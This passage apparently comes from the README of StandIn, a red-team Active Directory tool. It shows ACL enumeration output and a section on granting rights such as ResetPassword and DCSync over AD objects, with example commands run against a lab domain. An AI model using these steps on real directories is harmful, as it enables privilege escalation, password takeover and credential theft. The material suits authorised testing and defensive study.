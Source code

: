 ```
    |_ Permission : WriteProperty
    |_ Object     : sAMAccountName

[+] Identity --> MAIN\domainjoiner
    |_ Type       : Allow
    |_ Permission : WriteProperty
    |_ Object     : displayName

[+] Identity --> MAIN\domainjoiner
    |_ Type       : Allow
    |_ Permission : WriteProperty
    |_ Object     : description

[+] Identity --> MAIN\domainjoiner
    |_ Type       : Allow
    |_ Permission : WriteProperty
    |_ Object     : User-Logon

[+] Identity --> MAIN\domainjoiner
    |_ Type       : Allow
    |_ Permission : Self
    |_ Object     : DS-Validated-Write-Computer
```

### Grant object access permission

#### Use Case

> *With the appropriate rights, the operator can grant an NTAccount special permissions over a specific object in AD. For instance, if an operator has GenericAll privileges over a user account they can grant themselves or a 3rd party NTAccount permission to change the user’s password without knowing the current password.*

#### Syntax

Add permission to the resolved object for a specified NTAccount. StandIn supports a small set of pre-defined privileges (GenericAll, GenericWrite, ResetPassword, WriteMembers, DCSync) but it also allows operators to specify a custom rights guid using the `--guid` flag.

```
C:\> whoami
main\s4uuser

C:\> StandIn.exe --group lowPrivButMachineAccess

[?] Using DC : m-w19-dc01.main.redhook.local
[?] Group    : lowPrivButMachineAccess
    GUID     : 37e3d957-af52-4cc6-8808-56330f8ec882

[+] Members

[?] Path           : LDAP://CN=s4uUser,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    samAccountName : s4uUser
    Type           : User
    SID            : S-1-5-21-1293271031-3053586410-2290657902-1197
    
C:\> StandIn.exe --object "distinguishedname=DC=main,DC=redhook,DC=local" --access --ntaccount "MAIN\lowPrivButMachineAccess"

[?] Using DC : m-w19-dc01.main.redhook.local
[?] Object   : DC=main
    Path     : LDAP://DC=main,DC=redhook,DC=local

[+] Object properties
```